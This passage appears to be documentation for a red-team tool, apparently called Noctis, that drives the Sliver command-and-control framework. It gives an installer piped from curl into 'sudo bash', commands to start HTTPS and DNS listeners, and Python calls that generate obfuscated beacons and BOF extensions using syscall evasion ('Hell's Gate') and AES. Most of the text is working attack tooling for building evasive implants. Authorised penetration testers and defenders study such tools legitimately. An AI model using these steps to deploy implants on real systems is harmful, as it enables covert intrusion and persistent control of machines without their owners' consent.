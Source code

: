 ```bash
# Official installer
curl https://sliver.sh/install | sudo bash

# Verify
sliver-server version
```

### Starting Sliver Server

```bash
# Start server
sliver-server

# Connect with client
sliver-client
```

### Create Listener

```bash
# HTTPS listener
sliver > https --lhost 192.168.1.100 --lport 443

# DNS listener
sliver > dns --domains example.com --lhost 192.168.1.100
```

### Generate Beacon with Noctis

**Python API:**
```python
from c2_adapters import generate_sliver_beacon

result = generate_sliver_beacon(
    listener_host="192.168.1.100",
    listener_port=443,
    protocol="https",
    architecture="x64",
    techniques=["NOCTIS-T004", "NOCTIS-T002"],  # Hell's Gate + AES
    obfuscate=True
)

print(f"Beacon: {result.beacon_path}")
print(f"OPSEC Score: {result.opsec_score}/10")
```

### Sliver BOF Generation

**Generate BOF from Technique:**
```python
from c2_adapters import SliverAdapter, SliverConfig

config = SliverConfig(
    listener_host="192.168.1.100",
    listener_port=443
)

adapter = SliverAdapter(config, verbose=True)

# Generate Sliver BOF extension
bof_result = adapter.generate_bof('NOCTIS-T004')  # Hell's Gate syscalls

if bof_result.success:
    print(f"x86 BOF: {bof_result.x86_path}")
    print(f"x64 BOF: {bof_result.x64_path}")
```